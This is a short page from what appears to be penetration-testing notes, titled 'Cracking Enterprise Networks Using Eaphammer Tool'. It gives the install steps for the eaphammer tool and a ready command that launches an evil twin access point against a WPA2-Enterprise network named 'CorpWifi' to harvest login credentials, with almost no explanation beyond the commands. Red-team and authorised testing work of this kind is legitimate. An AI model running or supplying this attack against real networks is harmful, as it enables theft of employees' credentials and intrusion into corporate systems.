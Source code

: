 # Cracking Enterprise Networks Using Eaphammer Tool

**targeted evil twin attacks against WPA2-Enterprise networks.**

**Installation**

```bash
git clone https://github.com/s0lst1c3/eaphammer.git
./kali-setup
# generate certificates
./eaphammer --cert-wizard

# launch attack
./eaphammer -i wlan0 --channel 4 --auth wpa-eap --essid CorpWifi --creds
```

![image.png](<../../../.gitbook/assets/image (1) (1) (1) (1).png>)
